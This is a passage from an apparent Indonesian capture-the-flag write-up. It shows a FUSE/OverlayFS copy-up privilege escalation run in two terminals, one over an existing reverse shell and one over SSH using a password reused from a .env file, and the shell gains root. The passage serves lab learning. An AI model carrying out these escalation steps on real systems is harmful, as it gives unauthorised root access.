Karena `fuse` harus tetap hidup menyajikan `lower` selama `exp` memicu copy up, exploit ini butuh dua sesi terminal yang berjalan bersamaan. Sesi pertama memakai reverse shell yang sudah terbuka, sedangkan sesi kedua masuk lewat SSH sebagai user `admin` memakai password yang sama seperti pada file `.env`.

```bash
# terminal 1
./fuse ./ovlcap/lower ./gc

# terminal 2
./exp
```

Repo exploit dipaketkan menjadi file zip, dikirim ke target melalui python http server dan di-download memakai curl, lalu diekstrak di direktori home user `admin` sebelum dikompilasi.

Setelah kedua proses berjalan, sesi pada terminal kedua berubah menjadi root shell, dan akses penuh ke box didapat tanpa perlu celah konfigurasi tambahan.


